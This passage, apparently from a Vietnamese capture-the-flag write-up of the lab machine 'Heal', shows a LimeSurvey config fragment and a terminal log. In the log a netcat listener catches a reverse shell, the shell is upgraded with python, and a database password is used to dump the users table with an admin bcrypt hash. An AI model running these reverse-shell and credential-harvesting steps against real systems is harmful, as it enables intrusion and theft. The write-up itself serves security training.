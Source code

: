 ```php
                        // 'class' => 'application.core.web.DbHttpSession',
                        // 'connectionID' => 'db',
                        // 'sessionTableName' => '{{sessions}}',
                 ),

                'urlManager' => array(
                        'urlFormat' => 'path',
                        'rules' => array(
                                // You can add your own rules here
                        ),
                        'showScriptName' => true,
                ),

                // If URLs generated while running on CLI are wrong, you need to set the baseUrl in the request component. For example:
                //'request' => array(
                //      'baseUrl' => '/limesurvey',
                //),
        ),
```

Đăng nhập vào pgsql

```bash
┌──(neo㉿fs0c13ty)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.46] 35864
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 09:49:08 up 14:06,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@heal:/$ psql -h localhost -p 5432 -U db_user -d survey
psql -h localhost -p 5432 -U db_user -d survey
Password for user db_user: AdmiDi0_pA$$w0rd

psql (14.15 (Ubuntu 14.15-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

survey=> SELECT * FROM lime_users;

 uid | users_name |                           password                           |   full_name   | parent_id | lang |     email      | htmleditormode | templateeditormode | questionselectormode | one_time_pw | dateformat |     last_login      |          created           |          modified          | validation_key | validation_key_expiration | last_forgot_email_password | expires | user_status
-----+------------+--------------------------------------------------------------+---------------+-----------+------+----------------+----------------+--------------------+----------------------+-------------+------------+---------------------+----------------------------+----------------------------+----------------+---------------------------+----------------------------+---------+-------------
   1 | ralph      | $2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C | Administrator |         0 | en   | ralph@heal.htb | default        | default            | default              |             |          1 | 2025-03-22 09:44:01 | 2024-09-27 10:37:34.356873 | 2025-03-22 09:44:01.945104 |                |                           |
                 |         |           1
```
